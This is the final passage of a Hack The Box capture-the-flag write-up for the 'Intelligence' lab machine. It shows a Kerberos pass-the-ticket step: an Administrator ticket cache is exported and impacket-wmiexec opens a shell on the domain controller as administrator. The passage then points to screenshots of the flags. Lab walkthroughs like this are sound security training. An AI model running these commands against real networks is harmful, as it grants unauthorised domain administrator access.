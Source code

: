 Then:
```
┌──(ryan㉿kali)-[~/HTB/Intelligence]
└─$ export KRB5CCNAME=Administrator.ccache 
```

We can now logon with impacket-wmiexec:

```
┌──(ryan㉿kali)-[~/HTB/Intelligence]
└─$ KRB5CCNAME=Administrator.ccache impacket-wmiexec -k -no-pass administrator@dc.intelligence.htb
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
intelligence\administrator
```

And grab both the flags:

![intelligence_user.png](../assets/intelligence_assets/intelligence_user.png)

![intelligence_root.png](../assets/intelligence_assets/intelligence_root.png)

Thanks for following along!

-Ryan

